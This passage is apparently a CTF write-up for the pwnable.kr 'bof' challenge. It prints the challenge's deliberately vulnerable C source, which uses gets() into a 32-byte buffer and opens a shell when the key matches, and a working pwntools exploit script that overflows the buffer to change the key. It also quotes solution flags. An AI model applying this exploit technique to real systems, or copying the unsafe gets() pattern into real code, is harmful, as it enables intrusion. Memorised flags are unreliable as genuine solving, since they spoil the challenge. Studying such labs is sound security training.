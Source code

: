 `daddy! I just managed to create a hash collision :)`


### bof

> Nana told me that buffer overflow is one of the most common software vulnerability. 
> Is that true?
>
> Download : http://pwnable.kr/bin/bof
> Download : http://pwnable.kr/bin/bof.c
>
> Running at : nc pwnable.kr 9000

bof.c

```cpp
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

```

最简单的bufferoverflow，不想解释了，有点坑的是题目没setbuf，前面如果cn.recv()会卡死，去掉就好了。

```python
from pwn import *
context.log_level = 'debug'
cn = remote('pwnable.kr', 9000)
#cn = process('./bof')
#cn.recv()
pay = 'a'*0x2c + 'bbbb'+ 'rrrr' + p32(0xCAFEBABE)
cn.sendline(pay)
cn.interactive()
```

`daddy, I just pwned a buFFer :)`


### flag
